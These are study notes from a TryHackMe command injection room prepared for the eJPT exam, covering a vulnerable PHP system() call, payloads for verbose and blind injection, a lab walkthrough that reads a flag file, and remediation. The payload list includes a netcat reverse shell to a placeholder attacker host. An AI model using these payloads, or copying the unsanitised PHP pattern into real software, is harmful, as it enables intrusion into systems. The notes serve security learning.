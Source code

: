 ```yaml
---
{"dg-publish":true,"permalink":"/thm-notes/web-fundamentals-path/command-injection/","title":"Command Injection","tags":["web"]}
---
```


# Command Injection - Detailed Notes for eJPT Preparation

---

## TASK 1 - Introduction

### Definition of Command Injection

**Command Injection** is a web security vulnerability that allows an attacker to execute arbitrary commands on the host operating system via a vulnerable application. This typically occurs when user input is passed directly to a system shell or executed as a command without proper sanitization.

### Importance and Impact

- **Abuse of Functionality**: It exploits the application's behavior to run unintended commands.
- **Remote Code Execution (RCE)**: Often leads to complete system compromise.
- **Examples**: Reading sensitive files, listing user accounts, and modifying system data.

### How Command Injection Happens

Applications that interface with the operating system by executing system commands (using functions like `system()`, `exec()`, `popen()`, etc.) can be vulnerable if they incorporate unsanitized user inputs.

**Example PHP Vulnerable Code**:
```php
<?php
$title = $_GET['title'];
system("grep '$title' songtitle.txt");
?>
```
**Explanation**:
- The variable `$title` is derived directly from user input via `$_GET['title']`.
- This input is passed to the `system()` function, which executes it as part of a command on the server.

---

## TASK 2 - Discovering Command Injection

### Identifying Vulnerabilities

Command injection can be discovered by:
1. **Analyzing Source Code**: Look for functions that execute system commands with user input.
2. **Testing Inputs**: Injecting special characters or commands to see if the behavior changes.

### PHP Example Analysis

```php
<?php
$title = $_GET['title'];
system("grep '$title' songtitle.txt");
?>
```

**Variables and Methods**:
1. **User Input Storage**: `$title` holds the user's input.
2. **HTTP Method**: `GET` method is used to pass data.

**Command Execution Scenario**:
- User input directly appended to the `grep` command.
- Potential for command injection by including shell metacharacters.

### Questions Recap

1. **User Input Variable**: `$title`
2. **HTTP Method**: `GET`
3. **Route for Execution in Python Example**: `/id`

---

## TASK 3 - Exploiting Command Injection

### Types of Command Injection

1. **Verbose Command Injection**:
   - Direct feedback from the executed command.
   - Example: Injecting `whoami` returns the user.

2. **Blind Command Injection**:
   - No direct output. Detectable via indirect methods.
   - Example: Use `ping` to induce delays or `sleep` for response time measurement.

### Common Payloads

**Linux Payloads**:
- `whoami` (get the current user)
- `ls` (list directory contents)
- `ping -c 4 127.0.0.1` (network delay indication)
- `sleep 10` (delay to detect blind injection)
- `nc -e /bin/bash attacker_ip attacker_port` (reverse shell)

**Windows Payloads**:
- `whoami` (get the current user)
- `dir` (list directory contents)
- `ping -n 4 127.0.0.1` (network delay indication)
- `timeout 10` (delay to detect blind injection)

### Practical Application

**Example Injection**:
- To find the user: `& whoami`
- To create a delay: `& ping -c 4 127.0.0.1` (Linux), `& timeout 10` (Windows)

### Questions Recap

1. **Determine User**: `whoami`
2. **Tool for Blind Injection on Linux**: `ping`
3. **Tool for Blind Injection on Windows**: `timeout`

---

## TASK 4 - Remediating Command Injection

### Prevention Strategies

1. **Avoid Dangerous Functions**: Refrain from using functions that directly execute system commands (e.g., `exec()`, `system()`, `passthru()`).
2. **Sanitize Inputs**:
   - Allow only safe characters (e.g., use regex to permit only alphanumeric input).
   - Validate input types (e.g., integers only).

### Example Sanitization

**PHP Sanitization Example**:
```php
if (filter_input(INPUT_GET, 'number', FILTER_VALIDATE_INT) !== false) {
    // Proceed only if input is a valid integer
}
```

### Input Validation Techniques

1. **Whitelist Validation**: Accept only known good inputs.
2. **Blacklist Filtering**: Reject known bad inputs (less secure than whitelisting).
3. **Use Parameterized Commands**: Avoid shell invocation, use language-specific APIs for tasks like file handling or database access.

### Questions Recap

1. **Term for Input Cleaning**: `sanitisation`

---

## TASK 5 - Practical: Command Injection (Deploy)

### Hands-On Command Injection

**Steps to Exploit**:

1. **Determine Application User**:
   - Inject payload: `& whoami`
   - Result: `www-data`

2. **Retrieve Sensitive Data**:
   - Inject payload: `& cat /home/tryhackme/flag.txt`
   - Result: `THM{COMMAND_INJECTION_COMPLETE}`

### Summary

Understanding command injection involves recognizing how user inputs can influence system commands and the significance of sanitizing these inputs to prevent exploitation. This knowledge is essential for securing applications and is a critical aspect of the eJPT certification and real-world cybersecurity practices.

---

These notes provide a comprehensive overview of command injection, blending theoretical understanding with practical application and emphasizing preventive measures. This will aid beginners in preparing for the eJPT certification.